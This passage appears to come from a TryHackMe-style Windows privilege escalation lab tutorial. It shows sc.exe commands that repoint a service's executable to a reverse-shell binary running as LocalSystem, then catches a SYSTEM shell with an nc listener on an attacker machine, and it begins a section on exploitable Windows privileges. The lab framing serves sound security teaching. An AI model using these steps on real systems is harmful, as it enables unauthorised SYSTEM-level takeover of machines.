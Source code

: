 To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):

- **Command Prompt**        

```shell-session
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
        
```

Notice we can use any account to run the service. We chose  LocalSystem as it is the highest privileged account available. To  trigger our payload, all that rests is restarting the service:

- **Command Prompt**        

```shell-session
C:\> sc stop THMService
C:\> sc start THMService
        
```

And we will receive a shell back in our attacker's machine with SYSTEM privileges:

- **Kali Linux**        

```shell-session
user@attackerpc$ nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
        
```

# Abusing dangerous privileges                            

### Windows Privileges

Privileges are rights that an account has to perform specific  system-related tasks. These tasks can be as simple as the privilege to  shut down the machine up to privileges to bypass some DACL-based access  controls.

Each user has a set of assigned privileges that can be checked with the following command:

```shell-session
whoami /priv
```

A complete list of available privileges on Windows systems is available [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). From an attacker's standpoint, only those privileges that allow us to  escalate in the system are of interest. You can find a comprehensive  list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.
